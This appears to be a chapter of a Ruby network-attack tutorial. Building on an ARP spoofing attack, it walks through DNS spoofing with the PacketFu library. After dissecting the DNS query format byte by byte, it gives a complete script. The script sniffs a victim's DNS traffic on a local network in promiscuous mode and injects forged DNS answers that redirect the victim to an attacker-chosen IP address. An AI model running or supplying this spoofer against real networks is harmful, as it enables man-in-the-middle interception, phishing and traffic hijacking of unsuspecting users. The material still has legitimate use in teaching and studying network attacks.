

DNS Spoofing
Continuing our attack through ARP Spoofing, we want to change the victim's DNS request to whatever destination we like.
Scenario
|Attacker|
| AttackerSite
٧ AttackerSite
|Victim| ----------/ \----------> |Router| ----------> Internet
AnySite AttackerSite
Keep the ARP spoof attack running
The same IPs of ARP spoof attack
| Host | IP Address |
|---|---|
| Attacker | 192.168.0.100 |
| Victim | 192.168.0.21 |
| Router | 192.168.0.1 |
Now we cant intercept DNS Query packet coming from victim's machine. Since PacketFu supports filters in capturing (to reduce mount of captured packets) we'll use udp and port 53 and host filter, then we'll inspect the captured packet to ensure that it's a query then find the requested domain. Download DNS packet.
From Wireshark, if we take a deeper look at the DNS query payload in Domain Name System (query), we can see its been presented in hexadecimal format.
|  |
|---|
| Figure 1. DNS query Payload |
Let's to anatomize our payload
0000 e7 1d 01 00 00 01 00 00 00 00 00 00 07 74 77 69
0010 74 74 65 72 03 63 6f 6d 00 00 01 00 01
- The First 2 bytes is the Transaction ID and we don't care about it for now. (Our case:
\xe7\x1d) - The next 2 bytes is the Flags3. (We need:
\x01\x00= \x10) - Furthermore, in Queries section which contains
0000 07 74 77 69 74 74 65 72 03 63 6f 6d 00 00 01 00
0010 01
The Queries starts at 13 byte of the payload.
The 13th byte specifies the length of the domain name before the very first dot (without last dot com or whatever the top domain is). (Our case:
\x07) Try:[%w{ 74 77 69 74 74 65 72 }.join].pack("H*")- Notice The domain name of "twitter.com" equals
\x07but "www.twitter.com" equals\x03the same consideration for subdomains Each dot after first dot will be replaced with the length of the followed characters
e.g. www.google.co.uk
- First length (www) => will be replaced with
\x03 - First dot(.google) => will be replaced with
\x06 - Second dot(.co) => will be replaced with
\x02 - Third dot(.uk) => will be replaced with
\x02
- First length (www) => will be replaced with
- Notice The domain name of "twitter.com" equals
The very end of the domain name string is terminated by a
\x00.- The next 2 bytes refers to the type of the query4. (Our case:
\x00\x01)
Now what?!
- We need to start capturing/sniffing on specific interface
- We need to enable promiscuous mode on our interface
- We need to capture UDP packets on port 53 only
- We need parse/analyze the valid UDP packets only
- We need to make sure this packet is a DNS query
- We need to get the queried/requested domain
- We need to know the domain length
- We need to get the FQDN
- Build a DNS response
- Replace the requested domain with any domain we want
- Re inject the packet into victim connection and send
I'll divide our tasks then wrap it up in one script
#!/usr/bin/env ruby
#
require 'packetfu'
include PacketFu
#
# * We need to start capturing/sniffing on specific interface
# * We need to enable promiscuous mode on our interface
# * We need to capture UDP packets on port 53 only
#
filter = "udp and port 53 and host " + "192.168.0.21"
capture = Capture.new(:iface => "wlan0",:start => true, :promisc => true, :filter => filter, :save => true)
# * We need to get the queried/requested domain
# * We need to know the domain length
# * We need to get the FQDN
#
# Convert DNS Payload to readable - Find The FQDN
#
def readable(raw_domain)
# Prevent processing non domain
if raw_domain[0].ord == 0
puts "ERROR : THE RAW STARTS WITH 0"
return raw_domain[1..-1]
end
fqdn = ""
length_offset = raw_domain[0].ord
full_length = raw_domain[ 0..length_offset ].length
domain_name = raw_domain[(full_length - length_offset)..length_offset]
while length_offset != 0
fqdn << domain_name + "."
length_offset = raw_domain[full_length].ord
domain_name = raw_domain[full_length + 1..full_length + length_offset]
full_length = raw_domain[0..full_length + length_offset].length
end
return fqdn.chomp!('.')
end
# * We need parse/analyze the valid UDP packets only
# * We need to make sure this packet is a DNS query
#
# Find the DNS packets
#
capture.stream.each do |pkt|
# Make sure we can parse the packet; if we can, parse it
if UDPPacket.can_parse?(pkt)
@packet = Packet.parse(pkt)
# Make sure we have a query packet
dns_query = @packet.payload[2..3].to_s
if dns_query == "\x01\x00"
# Get the domain name into a readable format
domain_name = @packet.payload[12..-1].to_s # FULL QUERY
fqdn = readable(domain_name)
# Ignore non query packet
next if domain_name.nil?
puts "DNS request for: " + fqdn
end
end
end
Till now we successfully finished ARP Spoofing then DNS capturing but still we need to replace/spoof the original response to our domain. e.g. attacker.zone, now we have to build a DNS response instead of spoofed to be sent. So what we need?
- taking the IP we are going to redirect the user to (the spoofing_ip)
- converting it into hex using the
to_iandpackmethods.
- converting it into hex using the
- From there we create a new UDP packet using the data contained in
@ourInfo(IP and MAC) and fill in the normal UDP fields.- I take most of this information straight from the DNS Query packet.
- The next step is to create the DNS Response.
- the best way to understand the code here is to look at a DNS header and then
- take the bit map of the HEX values and apply them to the header.
- This will let you see what flags are being set.
- From here, we just calculate the checksum for the UDP packet and send it out to the target's machine.
 |
|---|
| Figure 2. DNS Response Payload |
spoofing_ip = "69.171.234.21"
spoofing_ip.split('.').map {|octet| octet.to_i}.pack('c*')
response = UDPPacket.new(:config => PacketFu::Utils.ifconfig("wlan0"))
response.udp_src = packet.udp_dst
response.udp_dst = packet.udp_src
response.ip_saddr = packet.ip_daddr
response.ip_daddr = "192.168.0.21"
response.eth_daddr = "00:0C:29:38:1D:61"
Wrapping up
#!/usr/bin/env ruby
# -*- coding: binary -*-
# Start the capture process
require 'packetfu'
require 'pp'
include PacketFu
def readable(raw_domain)
# Prevent processing non domain
if raw_domain[0].ord == 0
puts "ERROR : THE RAW STARTS WITH 0"
return raw_domain[1..-1]
end
fqdn = ""
length_offset = raw_domain[0].ord
full_length = raw_domain[ 0..length_offset ].length
domain_name = raw_domain[(full_length - length_offset)..length_offset]
while length_offset != 0
fqdn << domain_name + "."
length_offset = raw_domain[full_length].ord
domain_name = raw_domain[full_length + 1 .. full_length + length_offset]
full_length = raw_domain[0 .. full_length + length_offset].length
end
return fqdn.chomp!('.')
end
#
# Send Response
#
def spoof_response(packet, domain)
attackerdomain_name = 'rubyfu.net'
attackerdomain_ip = '54.243.253.221'.split('.').map {|oct| oct.to_i}.pack('c*') # Spoofing IP
# Build UDP packet
response = UDPPacket.new(:config => PacketFu::Utils.ifconfig("wlan0"))
response.udp_src = packet.udp_dst # source port
response.udp_dst = packet.udp_src # destination port
response.ip_saddr = packet.ip_daddr # modem's IP address to be source
response.ip_daddr = packet.ip_saddr # victim's IP address to be destination
response.eth_daddr = packet.eth_saddr # the victim's MAC address
response.payload = packet.payload[0,1] # Transaction ID
response.payload += "\x81\x80" # Flags: Reply code: No error (0)
response.payload += "\x00\x01" # Question: 1
response.payload += "\x00\x00" # Answer RRs: 0
response.payload += "\x00\x00" # Authority RRs: 0
response.payload += "\x00\x00" # Additional RRs: 0
response.payload += attackerdomain_name.split('.').map do |section| # Queries | Name: , Convert domain to DNS style(the opposite of readable method)
[section.size.chr, section.chars.map {|c| '\x%x' % c.ord}.join]
end.join + "\x00"
response.payload += "\x00\x01" # Queries | Type: A (Host address)
response.payload += "\x00\x01" # Queries | Class: IN (0x0001)
response.payload += "\xc0\x0c" # Answer | Name: twitter.com
response.payload += "\x00\x01" # Answer | Type: A (Host address)
response.payload += "\x00\x01" # Answer | Class: IN (0x0001)
response.payload += "\x00\x00\x00\x25" # Answer | Time to live: 37 seconds
response.payload += "\x00\x04" # Answer | Data length: 4
response.payload += attackerdomain_ip # Answer | Addr
response.recalc # Calculate the packet
response.to_w(response.iface) # Send the packet through our interface
end
filter = "udp and port 53 and host " + "192.168.0.21"
@capture = Capture.new(:iface => "wlan0", :start => true, :promisc => true, :filter => filter, :save => true)
# Find the DNS packets
@capture.stream.each do |pkt|
# Make sure we can parse the packet; if we can, parse it
if UDPPacket.can_parse?(pkt)
packet = Packet.parse(pkt)
# Get the offset of the query type: (request=\x01\x00, response=\x81\x80)
dns_query = packet.payload[2..3].to_s
# Make sure we have a dns query packet
if dns_query == "\x01\x00"
# Get the domain name into a readable format
domain_name = packet.payload[12..-1].to_s # FULL DOMAIN
fqdn = readable(domain_name)
# Ignore non query packet
next if domain_name.nil?
puts "DNS request for: " + fqdn
end
# Make sure we have a dns reply packet
if dns_query == "\x81\x80"
domain_name = packet.payload[12..-1].to_s # FULL DOMAIN
fqdn = readable(domain_name)
puts "[*] Start Spoofing: " + fqdn
spoof_response packet, domain_name
end
end
end
https://github.com/SilverFoxx/Spoofa/blob/master/spoofa
Sources1 2 - The code has been modified and fixed
1. DNS Spoofing Using PacketFu ↩
2. Manipulating The Network with PacketFu ↩
3. DNS Header Flags ↩
| Bit | Flag | Description | Reference |
|---|---|---|---|
| bit 5 | AA | Authoritative Answer | [RFC1035] |
| bit 6 | TC | Truncated Response | [RFC1035] |
| bit 7 | RD | Recursion Desired | [RFC1035] |
| bit 8 | RA | Recursion Allowed | [RFC1035] |
| bit 9 | Reserved | ||
| bit 10 | AD | Authentic Data | [RFC4035] |
| bit 11 | CD | Checking Disabled | [RFC4035] |
4. DNS Lookups Types ↩
| Type | Value | Description |
|---|---|---|
| A | 1 | IP Address |
| NS | 2 | Name Server |
| CNAME | 5 | Alias of a domain name |
| PTR | 12 | Reverse DNS Lookup using the IP Address |
| HINFO | 13 | Host Information |
| MX | 15 | MX Record |
| AXFR | 252 | Request for Zone Transfer |
| ANY | 255 | Request for All Records |